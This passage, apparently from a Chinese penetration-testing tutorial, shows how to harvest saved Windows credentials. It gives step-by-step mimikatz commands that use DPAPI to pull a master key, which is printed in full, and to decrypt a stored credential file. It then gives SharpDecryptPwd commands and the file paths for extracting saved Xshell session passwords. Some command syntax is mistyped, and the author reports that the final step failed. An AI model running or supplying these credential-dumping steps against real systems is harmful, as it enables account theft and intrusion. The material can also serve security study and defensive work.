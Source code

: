     使用mimikatz解析指定的连接凭据`DFBE70A7E5CC19A398EBF1B96859CE5D`
    
    ```bash
    mimikatz.exe "privilege::debug" "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit
    ```
    
    ![image-20221014013655337](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    这时候拿到的`pdData`就是凭据的加密数据, `guidMasterKey`就是该凭据的GUID, 记录下`guidMasterKey`的值(`73207018-83c2-482d-ba70-8abba34fca4f`)然后执行mimikatz命令找到想关联的`MasterKey`
    
    ```bash
    mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit
    ```
    
    原本应该是直接一个命令就执行完的, 但是发现在非管理员模式下会返回`Access is denied.`即使是在管理员模式下也只是会返回`访问拒绝`(其实都一个意思)
    
    但是使用mimikatz.exe在管理员模式下逐句执行就没问题可以拿到后面的MasterKey
    
    ![image-20221014015145147](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    ![image-20221014014629313](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    拿到`MasterKey`, 这就是加密凭据所使用的秘钥
    
    ```
    c33afd208e2f69c975b90546deedc8091c47eab49fb96a9c3092373f276a85dcf90d41e072eb4a105599244876b686c145f5bd2f00ffc12cac2e7faace661733
    ```
    
    使用秘钥执行命令使用`MasterKey`值破解指定的凭据文件
    
    ```bash
    mimikatz.exe "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D/msaterkey:c33afd208e2f69c975b90546deedc8091c47eab49fb96a9c3092373f276a85dcf90d41e072eb4a105599244876b686c145f5bd2f00ffc12cac2e7faace661733" exit
    ```
    
    最后执行这个命令就可以在回显的`UserName`和`Credentials`这两个数据的值得到用户名和密码, 但是不出意外就出意外了, 我这里执行了之后mimikatz报错了并没有得到正常回显
    
    ​
    
    ![image-20221014020303469](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
2. #### 获取Xshell保存的凭据
    
    ```bash
    SharpDecryptPwd.exe -Xmangager -p "%USERPROFILE%\Documents\NetSarang\Xshell\Sessions"   #获取Xshell5的账密 SharpDecryptPwd.exe -Xmangager -p "%USERPROFILE%\Documents\NetSarang Computers\6\Xshell\Sessions"  #获取Xshell6的账密
    ```
    
    Xshell会将服务器连接信息保存在Session目录下的.xsh文件中, 如果用户在连接的时候勾选了`记住用户名/密码`, 改文件会保存远程服务器连接的用户名和结果加密后的密码
    
    |Xshell版本|.xsh文件路径|
    |---|---|
    |Xshell5|%USERPROFILE%\Documents\NetSarang\Xshell\Sessions|
    |Xshell6|%USERPROFILE%\Documents\NetSarang Computers\6\Xshell\Sessions|
    |Xshell7|%USERPROFILE%\Documents\NetSarang Computers\7\Xshell\Sessions|
    
